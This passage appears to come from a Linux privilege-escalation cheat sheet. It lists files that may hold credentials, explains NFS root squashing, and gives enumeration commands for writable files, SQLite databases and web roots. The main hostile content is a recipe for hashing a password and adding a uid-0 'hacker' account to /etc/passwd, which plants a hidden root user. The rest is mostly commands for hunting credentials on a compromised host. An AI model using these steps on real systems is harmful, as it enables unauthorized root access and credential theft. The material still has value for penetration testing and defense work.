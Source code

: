 - **/etc/cups/cupsd.conf**: You could found credentials or others usefull information in it
- **/etc/printer.conf**: You could found credentials or others usefull information in it

###### *If you don't know, now you know: **[NFS Root Squashing](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/4/html/security_guide/s2-server-nfs-noroot)**

Root squash is a technique to void privilege escalation on the client machine via suid executables Setuid. Without root squash, an attacker can generate suid binaries on the server that are executed as root on other client, even if the client user does not have superuser privileges.

Root squash is a special mapping of the remote superuser (root) identity when using identity authentication

Under root squash, a client's uid 0 (root) is mapped to 65534 (nobody).

##### All Files/Folder

```bash
find / -name *.db -print 2>/dev/null  # SQlite files
find . -type d -perm -g=x 2>/dev/null
find . -perm -u=x 2>/dev/null
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null # Writable files
```

Interesting files:

- /etc/sysconfig/network-scripts/ifcfg-xxx (Centos/Redhat):
  [source](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)
- /etc/passwd

  ```bash
  # First generate a password with one of the following commands.
  openssl passwd -1 -salt hacker hacker
  mkpasswd -m SHA-512 hacker
  python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
  # Then add the user hacker and add the generated password.
  hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
  ```

##### Websites location enumeration

Websites location may help us to:

- Find credentials and/or comments in files that are only available on the back-end
- Websites files that are not yet available in either dev, stage, test or production

```bash
ls -alhR /var/www/
ls -alhR /srv/www/htdocs/
ls -alhR /usr/local/www/apache22/data/
ls -alhR /opt/lampp/htdocs/
ls -alhR /var/www/html/
```
